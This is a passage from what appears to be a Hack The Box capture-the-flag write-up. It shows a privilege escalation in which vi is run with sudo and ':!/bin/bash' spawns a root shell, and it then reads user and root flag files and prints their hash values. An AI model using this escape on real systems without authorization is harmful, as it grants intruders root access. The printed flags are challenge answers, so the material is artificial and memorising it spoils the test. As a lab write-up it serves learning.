 3. Run __`/usr/bin/vi`__ using __`sudo`__:
   ```console
   $ sudo /usr/bin/vi /var/www/html/ggwp
   ```

4. Execute commands while inside vim:
   ```console
   ~
   ~
   ~
   ~ 
   ~
   ~
   ~
   ~
   :!/bin/bash
   ```

5. Now having a __root__ shell:
   ```console
   # cat /home/*/user.txt
     a448877277e82f05e5ddf9f90aefbac8

   # cat /root/root.txt
     c2b087d66e14a652a3b86a130ac56721

        ___ ___
      /| |/|\| |\
     /_| ´ |.` |_\           We are open! (Almost)
       |   |.  |
       |   |.  |         Join the beta HTB Swag Store!
       |___|.__|       https://hackthebox.store/password
     
                        PS: Use root flag as password!
   ```
